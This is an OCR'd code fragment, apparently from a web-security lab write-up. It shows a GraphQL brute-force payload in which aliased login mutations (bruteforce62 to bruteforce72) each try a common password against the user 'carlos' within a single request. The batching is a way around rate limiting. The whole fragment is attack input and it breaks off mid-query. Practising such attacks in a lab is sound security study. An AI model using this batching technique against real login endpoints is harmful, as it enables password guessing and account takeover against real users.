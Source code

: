 ```
bruteforce62:login(input:{password: "1111", username: "carlos"}) {
        token
        success
    }


bruteforce63:login(input:{password: "zxcvbn", username: "carlos"}) {
        token
        success
    }


bruteforce64:login(input:{password: "555555", username: "carlos"}) {
        token
        success
    }


bruteforce65:login(input:{password: "11111111", username: "carlos"}) {
        token
        success
    }


bruteforce66:login(input:{password: "131313", username: "carlos"}) {
        token
        success
    }


bruteforce67:login(input:{password: "freedom", username: "carlos"}) {
        token
        success
    }


bruteforce68:login(input:{password: "777777", username: "carlos"}) {
        token
        success
    }


bruteforce69:login(input:{password: "pass", username: "carlos"}) {
        token
        success
    }


bruteforce70:login(input:{password: "maggie", username: "carlos"}) {
        token
        success
    }


bruteforce71:login(input:{password: "159753", username: "carlos"}) {
        token
        success
    }


bruteforce72:login(input:{password: "aaaaaa", username: "carlos"}) {
        token
        success
```